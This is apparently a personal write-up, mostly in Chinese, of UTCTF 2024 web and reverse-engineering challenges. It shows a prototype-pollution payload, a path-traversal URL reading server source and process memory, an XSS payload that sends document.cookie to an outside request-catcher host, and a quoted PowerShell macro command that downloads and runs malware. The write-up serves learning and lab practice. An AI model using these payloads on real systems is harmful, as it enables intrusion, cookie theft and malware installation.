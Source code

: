 https://utctf.live/challenges
# web
### Beginner: Off-Brand Cookie Clicker
前端题,直接js找接口
### Schrödinger
zip软链接读取文件
`mklink /home/xxxx/flag.txt flag`

### Easy Mergers v0.1
一个创建公司(json)并允许使用merge合并,应该是原型链污染,没找到要污染的属性
payload
`{"attributes":["__proto__"],"values":[{"cmd":"whoami"}]}`
污染cmd属性
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240401194743.png)

### Home on the Range
主页只有一个 **Directory listing of www**
文件夹下有一个hello.html,访问只有一个hello
Server:BaseHTTP/0.6 Python/3.12.2

---
没想到真的是../路径穿越,偷懒使用浏览器url编码,还得是postman或者burp
读取服务器源码
`http://guppy.utctf.live:7884/../../server.py`
根据代码猜测会跟http range头有关
设置`bytes=100-500`可以读取指定文件的字节范围
读取当前进程的内存,并使用range获取指定范围
读取进程内存映射
`/proc/self/maps`
选择rw区域并脚本run

### Unsound
一个rust写的web页面,可以加密和解密数据,加密在前端,解密在后端且不返回解密得到的数据,前端还是wasm,用了wabt结果还反编译不了

---
1. the decrypt has a C-struct in it with a buffer for the decrypted message of 300bytes; if you overflow this, you'll overwrite the success-message.
2. payload to encrypt:
```
fill_buffer = 'A'*300
xss_payload = '''<img src=x onerror="fetch('https://matthias.requestcatcher.com/test?c=' + document.cookie,{ method:'GET'})" >'''
data_to_encrypt = fill_buffer + xss_payload
```
存在溢出,让内部服务器触发xss去带出cookie

3. Then decrypt the encrypted stuff and catch the fetch request somehow
 
xss triggers, because if you add the img-tag to the dom, it tries to load the img, fails and thus triggers the js
you'll receive 2 requests to your server; first is from your local machine, running the wasm; second one (roughly 12 seconds later - when I tested it) was the backend server requesting it


# reverse
### Beginner: Basic Reversing Problem
sym.l* 函数按顺序即可得到flag,但是没找到radare2脚本来一把梭出来
`afi @@ sym.l* ~name[1]`

### Fruit Deals
一个恶意的xlsm文件,应该是要分析恶意宏
`Alt+F11`打开宏文件
改一下脚本打印执行的命令

`poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}"`
问的是恶意文件的名字,
`banANA-Hakrz09182afd4.exe`
### PES-128
给了一个flag.enc和PES(elf),需要分析加密流程来解密flag.enc

### In the Dark
https://gist.github.com/nrabulinski/ba0a6927866e822e27faae190185a0f1


# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-01   19:42